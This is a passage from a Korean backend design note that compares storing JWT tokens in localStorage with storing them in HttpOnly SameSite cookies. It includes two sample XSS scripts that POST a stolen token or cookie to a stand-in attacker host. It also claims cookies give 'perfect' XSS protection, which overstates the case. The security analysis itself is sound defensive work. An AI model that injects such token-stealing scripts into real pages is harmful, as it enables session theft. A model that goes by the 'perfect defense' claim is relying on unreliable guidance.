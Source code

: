 # 백엔드 제안: HttpOnly + SameSite Cookie 분석

## 🎯 백엔드 팀 제안 사항

**제안**: JWT 토큰을 HttpOnly + SameSite Cookie로 저장

**이유**: XSS 공격으로부터 토큰을 완전히 보호하고, CSRF 공격도 SameSite 속성으로 방어

---

## 📊 심층 비교 분석

### 보안 측면

| 공격 유형 | localStorage | HttpOnly + SameSite Cookie | 승자 |
|----------|--------------|---------------------------|------|
| **XSS 공격** | ❌ 매우 취약 | ✅ 완벽 방어 | **Cookie** 🏆 |
| **CSRF 공격** | ✅ 안전 | ✅ 안전 (SameSite) | 무승부 |
| **중간자 공격** | ⚠️ HTTPS 필요 | ⚠️ HTTPS + Secure 필요 | 무승부 |

#### XSS 공격 시나리오 비교

**localStorage 방식 (현재)**:
```javascript
// 공격자가 악성 스크립트를 삽입하면
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('auth_token') // ❌ 토큰 탈취 가능
  });
</script>
```

**HttpOnly Cookie 방식 (제안)**:
```javascript
// 공격자가 악성 스크립트를 삽입해도
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: document.cookie // ✅ HttpOnly 쿠키는 접근 불가
  });
  // 결과: "" (빈 문자열 또는 HttpOnly가 아닌 쿠키만 반환)
</script>
```

**결론**: Cookie가 XSS 공격에 대해 **완벽한 방어**를 제공합니다.

---

### 아키텍처 영향
